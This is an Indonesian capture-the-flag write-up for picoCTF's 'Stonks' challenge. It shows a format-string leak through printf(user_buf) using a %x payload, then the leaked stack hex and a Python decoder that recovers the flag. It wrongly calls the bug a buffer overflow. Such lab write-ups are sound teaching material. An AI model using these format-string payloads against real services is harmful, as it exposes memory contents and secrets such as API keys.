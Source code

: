 # Stonks

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/62f47b5b65ec7eadb96c4e34f016f68d/vuln.c) `nc mercury.picoctf.net 53437`

## Hints
Okay, maybe I'd believe you if you find my API key.

## Solving
lihat ke **vuln.c** disana ada baris yang berisi
>printf(user_buf);

itu kita bisa exploit menggunakan anomali "buffer_overflow" dengan memasukkan input di bawah ini,
pertama kita masuk ke terminal ketikkan:
>nc mercury.picoctf.net 53437

masukkan input seperti dibawah ini
![](Screenshot%20from%202021-12-09%2021-25-36.png)
lalu masukkan kode buffernya:
```
x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xx%x%x%x%x%
```

>ini akan menimpa data yang berdekatan dan menyebabkan data itu terlihat di terminal kita.

data yang terlihat dari exploitasi tersebut:
```
x8f9b3f0804b00080489c3f7f6bd80ffffffff18f99160f7f79110f7f6bdc708f9a18028f9b3d08f9b3f06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3463646261653532ff96007df7fa6af8f7f79440cc1d6100
```

konversikan dari hex ke ascii di https://www.rapidtables.com/convert/number/hex-to-ascii.html
akan ketemu baris seperti ini
>ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ}

kode ini diacak jadi kita harus memecahkannya terlebihdahulu, bisa dengan cara manual atau bisa juga dengan menggunakan bahasa pemrograman, di sini saya menggunakan python untuk men-decode baris di atas.

buat program python untuk decoder
```
s='ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ}'

from contextlib import suppress

print()

for x in range(0,len(s),4):

	with suppress(Exception):

		print(s[x+3],end="")

	with suppress(Exception):

		print(s[x+2],end="")

	with suppress(Exception):

		print(s[x+1],end="")

	with suppress(Exception):

		print(s[x],end="")

  

print("\n")
```
jalankan akan ketemu kode
>picoCTF{I_l05t_4ll_my_m0n3y_......}
## Flag
picoCTF{I_l05t_4ll_my_m0n3y_............}

## Referensi
https://www.youtube.com/watch?v=ctpQdH-GGqY
https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Binary%20Exploitation/Stonks/Stonks.md
https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Binary%20Exploitation/Stonks/script.py